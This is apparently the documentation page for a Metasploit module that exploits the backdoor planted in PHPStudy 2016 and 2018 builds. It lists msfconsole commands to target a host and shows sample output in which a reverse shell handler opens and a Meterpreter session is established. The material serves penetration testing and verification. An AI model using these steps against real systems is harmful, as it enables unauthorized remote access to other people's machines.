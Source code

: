 ## Description

PHPStudy is free software, it is a one-click installation software, which includes PHP, MySQL, Apache and more. At some point in time, hackers were able to hack into phpStudy and tamper on 2016 and 2018 versions of the software to make it vulnerable to this specific exploit.

## Vulnerable Application

The vulnerability exists in php-5.4.45 and php-5.2.17 service versions in PHPStudy2016 and PHPStudy2018

## Verification Steps

1. Start msfconsole
2. Do:```use exploit/multi/http/phpstudy_backdoor_rce``` 
3. Do:```set rhosts <target>```
4. Do:```run```

If your target is vulnerable, you will get a shell. 
you should see an output similar to the following

```
msf5 exploit(multi/http/phpstudy_backdoor_rce) > set rhosts 192.168.56.104
rhosts => 192.168.56.104
msf5 exploit(multi/http/phpstudy_backdoor_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Sending shellcode
[*] Sending stage (38288 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.104:49169) at 2020-02-23 10:11:40 +0800

meterpreter > 
```
